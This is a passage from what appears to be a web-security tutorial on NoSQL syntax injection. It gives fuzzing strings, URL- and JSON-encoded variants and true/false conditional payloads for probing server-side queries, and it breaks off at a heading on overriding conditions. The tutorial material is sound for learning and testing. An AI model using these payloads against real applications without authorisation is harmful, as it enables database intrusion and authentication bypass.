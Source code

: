 The database reads this as: "Find a user where the `username` is 'admin' AND the `password` is **not equal to 'a'**."
## Syntax Injection

Syntax injection attempts to break the NoSQL query syntax by injecting malicious payloads.

### Detection and Fuzzing

#### Sample Fuzzing String

```
'"`{ ;$Foo} $Foo \xYZ
```

#### URL-Encoded Fuzzing

```
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```

#### JSON Context Fuzzing

```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

!!! tip
	To figure out which characters are processed, send individual characters to see how the application responds.

### Confirming Conditional Behavior

After identifying the vulnerability, try to determine which characters are being processed.

#### Testing False Conditions

```
' && 0 && 'x
```

#### Testing True Conditions

```
' && 1 && 'x
```

If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.

### Exploiting Syntax Injection

#### Override Existing Conditions

Attempt to override existing conditions with custom JavaScript:
